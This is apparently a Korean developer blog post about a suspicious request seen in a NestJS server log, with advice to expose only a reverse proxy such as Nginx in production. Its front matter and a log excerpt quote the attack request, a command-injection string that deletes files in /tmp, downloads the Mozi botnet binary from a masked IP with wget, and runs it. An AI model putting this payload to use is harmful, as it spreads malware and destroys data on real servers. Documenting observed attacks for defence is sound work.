 ```yaml
---
layout: post
title: "자잘한 도움말 #11 이름 모를 외국인들에게 공격당함"
description: "프록시, 리버스 프록시, 웹 스캐닝, DDoS, Nginx, Vue Proxy, Proxy, Reverse Proxys, /shell?cd+/tmp;rm+-rf+*;wget+http://xx.xx.xx.xx:xxxxx/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws, 해커맨, 웹 서버와 웹 어플리케이션 서버의 차이, 웹 서비스 구축 중 신경 써야할 보안 문제"
date: 2023-10-01 12:49:00 +0900
category: micro

id: 11
slug: alien invasion
tags: [💡, Network]

coverImage: "/assets/blog/coverImages/micro-11.png"

ogImage:
  url: "/assets/blog/coverImages/micro-11.png"
---
```


## TL;DR

- 클라우드에 여러 서버 인스턴스를 열어 두었는데 수상한 접근 시도를 발견했다.

```plaintext
[Nest] 9095  - xx/xx/xxxx, x:xx:xx AM	[HttpFilter]
{
  "statusCode":404,
  "message":"Cannot GET /shell?cd+/tmp;rm+-rf+*;wget+http://xx.xx.xx.xx:xxxxx/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws",
  "error":"Not Found"
}
hostname: xx.xxx.xxx.xx, addr: ::ffff:xx.xx.xx.xx
```

- 요청을 직접 받을 서버만 공개하고 리버스 프록시를 사용하자.
  - 보안 취약점을 제거할 수 있고, 모니터링할 포인터를 하나로 좁힐 수 있다.
  - 프론트엔드 프레임워크(Vue, React) 수준의 프록시 설정은 개발용 설정이다.
  - 배포 환경에서는 Nginx나 Apache 같은 웹 서버에서 프록시를 설정하자. 

## 이하 그리 중요하진 않은 내용들

### 험난한 정보의 바다

인터넷을 정보의 바다라고들 한다. 아마 한.. 30년 전부터.. 이젠 좀 삭았지만 나는 이 표현을 좋아한다. 겉으로 보기엔 평화롭고 풍요로워 보이는 수면 아래에 이런 상어들이 득실거리고 있다는 사실을 잘 나타내거든.

<p class="center w-3-quarter">
  <img src="https://i.postimg.cc/jshdKXWs/image.png" alt="경쟁상대"/>
</p>
